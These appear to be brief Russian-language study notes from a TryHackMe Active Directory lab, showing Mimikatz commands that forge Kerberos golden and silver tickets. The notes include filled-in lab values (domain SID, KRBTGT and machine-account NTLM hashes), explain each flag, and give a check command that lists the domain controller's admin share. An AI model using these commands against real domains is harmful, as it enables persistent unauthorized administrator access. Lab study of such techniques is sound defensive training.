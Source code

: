 	
# golden ticket

	kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
	
 	kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
		
	/admin — имя пользователя, которое мы хотим выдать за себя. Это не обязательно должен быть действительный пользователь.
	/domain — полное доменное имя домена, для которого мы хотим создать билет.
	/id — RID пользователя. По умолчанию Mimikatz использует RID 500, который является RID учетной записи администратора по умолчанию.
	/sid — SID домена, для которого мы хотим сгенерировать билет.
	/krbtgt — NTLM- хеш учетной записи KRBTGT.
	/endin — срок действия билета. По умолчанию Mimikatz генерирует билет, действительный в течение 10 лет. по умолчанию Политика Kerberos для AD составляет 10 часов (600 минут).
	/renewmax — максимальный срок действия билета с продлением. По умолчанию Mimikatz генерирует билет, действительный в течение 10 лет. по умолчанию Политика Kerberos для AD составляет 7 дней (10080 минут).
	/ptt — этот флаг сообщает Mimikatz о необходимости внедрения билета непосредственно в сеанс, что означает, что он готов к использованию. 


Проверка
	PS C:\Tools\mimikatz_trunk\x64> dir \\thmdc.za.tryhackme.loc\c$\


# silver ticket

  	kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt

   	 kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:THMSERVER1 /rc4:4c02d970f7b3da7f8ab6fa4dc77438f4 /service:cifs /ptt

      	 /admin — имя пользователя, которое мы хотим выдать за себя. Это не обязательно должен быть действительный пользователь.
   	 /domain — полное доменное имя домена, для которого мы хотим создать билет.
   	 /id — RID пользователя. По умолчанию Mimikatz использует RID 500, который является RID учетной записи администратора по умолчанию.
   	 /sid — SID домена, для которого мы хотим сгенерировать билет.
   	 /target — имя хоста нашего целевого сервера. Давайте сделаем THMSERVER1.za.tryhackme.loc, но это может быть любой хост, присоединенный к домену.
   	 /rc4 - NTLM -хеш учетной записи машины нашей цели. Просмотрите результаты синхронизации постоянного тока и найдите NTLM- хеш THMSERVER1$. Знак $ указывает, что это учетная запись компьютера.
  	  /service — услуга, которую мы запрашиваем в нашем TGS. CIFS — беспроигрышный вариант, поскольку он обеспечивает доступ к файлам.
  	  /ptt — этот флаг сообщает Mimikatz о необходимости внедрения билета непосредственно в сеанс, что означает, что он готов к использованию. 
